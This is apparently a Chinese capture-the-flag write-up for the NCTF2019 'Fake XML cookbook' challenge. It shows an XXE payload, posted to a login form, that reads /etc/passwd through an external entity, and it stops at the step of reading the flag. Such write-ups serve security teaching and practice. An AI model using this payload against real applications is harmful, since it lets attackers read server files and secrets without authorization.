




# [NCTF2019]Fake XML cookbook

## 知识点

`XXE`

## 解题

进入题目发现登录框



看题目提示猜测`XXE`,随便输入账号密码登录抓包



使用`xxe`的`payload`看一下有没有回显

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "file:///etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```



发现能正常回显和读取文件，尝试读取`flag`

